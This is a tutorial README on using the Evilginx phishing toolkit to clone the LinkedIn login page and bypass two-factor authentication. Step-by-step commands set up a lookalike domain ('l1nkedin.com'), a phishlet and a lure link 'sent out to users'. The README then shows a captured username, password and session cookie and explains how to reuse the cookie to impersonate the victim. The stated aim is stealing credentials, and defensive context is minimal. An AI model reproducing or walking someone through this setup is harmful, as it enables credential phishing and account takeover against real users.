



# 2FA BYPASS WITH EVILGINX

[*Evilginx*](https://help.evilginx.com/) is a sophisticated phishing toolkit designed for man-in-the-middle attacks, enabling attackers to bypass two-factor authentication (2FA) and capture sensitive session tokens.  
By acting as a reverse proxy, Evilginx tricks victims into entering their credentials and 2FA codes on a spoofed login page that mimics legitimate sites: the tool intercepts authentication tokens in real time, allowing attackers to gain unauthorized access to user accounts without needing the actual passwords.  
This makes Evilginx particularly dangerous for organizations and individuals relying on 2FA for security.  

This repository contains a beginner tutorial on evilginx in which we will emulate the linkedin login page in order to steal user credentials.    

## Instructions

Download evilginx via the [*apt package*](https://www.kali.org/tools/evilginx2/) (we can also clone the [*official repository*](https://github.com/kgretzky/evilginx2) or donwload a specific [*release*](https://github.com/kgretzky/evilginx2/releases)):  
```sh
sudo apt update && sudo apt install -y evilginx2
```  

  
Start evilginx in developer mode, this will allow us to test everything locally without the need to buy and configure a custom domain:  
```sh
sudo evilginx2 -developer -p ./phishlets 127.0.0.1:33500
```  

  

In order to be able to locally open our phishing links, in a web browser, using a TLS connection signed by a self-signed TLS certificate  
we will need to add Evilginx Root CA certificate into our trusted root certificates storage.  

The generated root CA certificate can be found at `/root/.evilginx/crt/ca.crt`.  
Make sure to run Evilginx at least once to generate the certificate file.  

```sh
sudo cp /root/.evilginx/crt/ca.crt /usr/local/share/ca-certificates/evilginx.crt \
&& sudo update-ca-certificates
```  

Now we can configure our phishing domain, we will use `l1nkedin.com`:

```sh
config domain l1nkedin.com
```  

Since we are testing evilginx locally, we will bound it to our localhost ip:  
```sh
config ipv4 127.0.0.1
```

Now we will setup a phishlet, a small configuration file (yaml) used to configure Evilginx for targeting specific website.  
For our purpose we will use the one from [*simplerhacking*](https://github.com/simplerhacking), already present in the current directory.  
Set up a hostname for our Linkedin phishing URL:  
we can pick whatever hostname we want with as many subdomains as we want, under condition that it ends with the top level domain we set up with the `config domain` command:  

```sh
phishlets hostname linkedin users.l1nkedin.com
```  
Now enable that phishlet:  
```sh
phishlets enable linkedin
```  

Since we're running Evilginx in developer mode, in our local deployment, we will have to manually modify our `/etc/hosts` or file to be able to map the phishing hostnames to our local IP address.  

To make it easier, Evilginx provides a way to generate a list of hosts automatically, which we can copy-paste into our `/etc/hosts` file:  

```sh
phishlets get-hosts linkedin
```  

With the phishlet up and running, we can now create a `lure` (a pre-generated phishing link), which will become a phishing link we send out to users in order to lure them to our phishing page.  


Create a lure for the linkedin phishlet:  

```sh
lures create linkedin
```  

Retrieve the list of our lure:  
```sh
lures
```  

Get the link for our linkedin lure:  
```sh
lures get-url 0
```  

example:  
```sh
https://www.users.l1nkedin.com/UoxZFYNO
```  

Open the link in firefox or other browsers (accept the warnig for self signed certificate):  
```sh
firefox https://www.users.l1nkedin.com/UoxZFYNO
```  

here is what our landing page will look like:  


  
 


Now we can proceede to enter valid credentials and observe the evilginx console:  

  


Evilginx Captured our user credentials and also all the required session tokens!  
Also notice from the browser how our malicious landing page seamlesly redirected our victim to the real linkedin website!  

At this point we have the user cookies, inspect them with the `sessions 1` command:  

```sh
id           : 1
phishlet     : linkedin
username     : test.user.10987@gmail.com
password     : NotAStrongPassw0rd!
tokens       : empty
landing url  : https://www.users.l1nkedin.com/UoxZFYNO
user-agent   : Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
remote ip    : 127.0.0.1
create time  : 2024-07-17 15:35
update time  : 2024-07-17 15:38

[ cookies ]
[{"path":"/","domain":"www.linkedin.com","expirationDate":1752759738,"value":"AQEDATfvyK4EoebVAAABkMDGoz4AAAGQ5NMnPk0AJ1LUgFJvlIK-oWTd9SLLGYdY-yMUfWdi2VxLgcA5ljoamb0JZU8u8-f-9ifSGNBmaJuq4D4knmBJ7fvASHtiELnAjgAwmiWfA2zWTrqQTt6Ap3TT","name":"li_at","httpOnly":true}]
```  

Now you can use those cookies with Burp or importing them in the browser in order to impersonate the victim!  


**NOTE**: I already deleted the above test user, do not waste time trying to access linkedin with that 😉  


